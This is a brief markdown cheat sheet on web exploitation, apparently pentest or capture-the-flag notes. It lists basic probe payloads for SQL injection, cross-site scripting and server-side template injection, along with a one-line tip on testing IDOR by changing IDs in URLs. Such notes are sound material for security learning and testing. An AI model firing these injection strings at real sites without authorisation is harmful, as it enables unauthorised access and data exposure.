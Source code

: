 # Web Exploitation

## SQLi
Payloads:
- ' OR '1'='1
- ' UNION SELECT null, version()--

## XSS
Payloads:
- <script>alert(1)</script>
- <img src=x onerror=alert(1)>

## SSTI
Payloads:
- {{7*7}}
- ${7*7}

## IDOR
Change IDs in URLs, test unauthorized access.
